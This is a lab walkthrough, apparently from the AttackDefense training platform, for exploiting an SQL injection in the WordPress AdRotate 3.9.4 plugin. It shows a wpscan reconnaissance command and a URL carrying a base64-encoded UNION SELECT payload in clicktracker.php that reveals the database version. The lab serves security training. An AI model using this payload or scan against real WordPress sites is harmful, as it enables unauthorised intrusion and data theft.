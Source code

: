 ﻿![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.001.png)

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress AdRotate </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=446>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : SQL Injection </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.004.jpeg)

**Step 2:** Search on google “WordPress AdRotate sql injection” and look for publically available exploits.**  

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.005.jpeg)

There are exploits for two versions. Find out the version of adrotate plugin using wpscan. ![ref1]**Command:** wpscan --url http://js0xv5d004n6af91zdbend7k1.public1.attackdefenselabs.com/ 

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.006.jpeg)

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.007.jpeg)

The version of adrotate plugin is 3.9.4 

The exploit db link for corresponding version of adrotate plugin contains the SQL Payload along with the information required to exploit the vulnerability. 

**Exploit DB Link: <https://www.exploit-db.com/exploits/31834>** ![ref1]

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.008.jpeg)

**Step 3:** Use the URL containing the SQLI payload provided at exploit db link to exploit the vulnerability.  

**URL:** http://js0xv5d004n6af91zdbend7k1.public1.attackdefenselabs.com/wp-content/plugins/adrotate/l ibrary/clicktracker.php?track=LTEgVU5JT04gU0VMRUNUIHZlcnNpb24oKSwxLDEsMQ== 

Upon navigating to the above URL, a redirection will occur leading to 404 not found error. ![ref1]

![](Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.009.jpeg)

The MySQL Server version is revealed.  **References:**  

1. AdRotate Banner Manager (<https://wordpress.org/plugins/adrotate/>)  ![ref1]
1. WordPress Plugin AdRotate 3.9.4 - 'clicktracker.ph?track' SQL Injection (<https://www.exploit-db.com/exploits/31834>)  
1. Wpscan (<https://wpscan.org/>)  

[ref1]: Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.003.png
